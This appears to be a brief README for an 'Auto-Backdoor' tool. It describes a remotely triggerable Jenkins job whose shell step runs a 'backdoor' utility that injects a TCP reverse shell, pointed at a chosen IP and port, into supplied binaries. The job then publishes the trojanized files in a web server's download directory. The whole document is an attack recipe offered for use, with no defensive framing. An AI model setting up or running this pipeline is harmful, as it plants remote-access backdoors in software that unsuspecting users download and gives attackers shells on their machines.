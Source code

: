 # Auto-Backdoor
Need a jenkins server running, on it make a build, this build needs to be paramatized with the following text pramaters

`dir` 
`Payload_Type`
`port`
`IP`
`binName`


Turn on trigger build remotly

Add build shell step with

`cp /in/$dir .
backdoor -f $dir -P $port -H $IP -s reverse_shell_tcp
cp backdoored/$dir /var/www/html/out/$dir
echo "DONE"
`
